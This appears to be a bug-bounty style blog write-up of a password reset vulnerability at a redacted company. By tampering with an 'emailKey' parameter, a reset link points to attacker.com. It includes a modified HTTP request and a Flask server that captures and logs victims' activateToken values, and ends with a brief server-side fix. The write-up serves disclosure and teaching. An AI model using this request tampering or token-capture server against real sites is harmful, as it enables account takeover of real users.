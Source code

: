   title: "Exploiting Password Reset Vulnerabilities: A Case Study",
  date: "2025-01-26",
  summary: "An attacker is able to control the content of the email and hijack the reset password link",
};

# Exploiting Password Reset Vulnerabilities: A Case Study

# Introduction

Password reset features are critical to account recovery workflows, but misconfigurations can open the door to severe security risks. Recently, I discovered a vulnerability in the password reset implementation of **[Redacted Company]**, which allowed an attacker to hijack the password reset process and potentially compromise user accounts.



# Summary of the Vulnerability

The vulnerability was found in the password reset mechanism of the platform, specifically in how the `emailKey` parameter was handled in the form data. By altering this parameter, an attacker could redirect password reset requests to their own malicious website.



# Steps to Reproduce

1. **Create an account**: Register a new account on **[Redacted Company]**'s platform.  
2. **Initiate password reset**: Request a password reset for the account.  
3. **Capture the request**: Intercept the reset request using a proxy tool like Burp Suite or similar.  
4. **Modify the payload**: Replace the `emailKey` parameter from the legitimate URL to a malicious domain.  
   - Example:  
     ```plaintext
     emailKey=https://www.[redacted].com/.edm.FGTPASS.data
     ```
     becomes  
     ```plaintext
     emailKey=https://attacker.com/.edm.FGTPASS.data
     ```
5. **Send the modified request**: The victim receives an email with the manipulated reset link.  
6. **Click the reset link**: When the victim clicks the link, the attacker harvests sensitive tokens (e.g., `activateToken`) and gains control of the account.



# Supporting Material

### Request Example:

```http
POST /[redacted]/users/forgotpassword HTTP/2
Host: www.[redacted].com
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

email={VICTIM_EMAIL}&userName={VICTIM_USERNAME}&emailKey=https%3A%2F%2Fattacker.com%2F.edm.FGTPASS.data
```


# Exploitation Code:

```
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/')
def index():
    return 'Welcome to Attacker\'s Site!'

@app.route('/.edm.FGTPASS.data')
def capture_token():
    args = request.args
    if "activateToken" in args:
        token = args.get("activateToken")
        with open("stolen_tokens.txt", "a") as file:
            file.write(f"{token}\n")
    return "Token captured!"
```
this will mimic the original /.edm.FGTPASS.data and steal the ``activateToken``, then upload to the server. By replacing the ``emailKey``, we are able to steal  the ``activateToken``.

# Conclusion

Do not trust client-side request, do not put something like this. The email template should be prepared in the backend.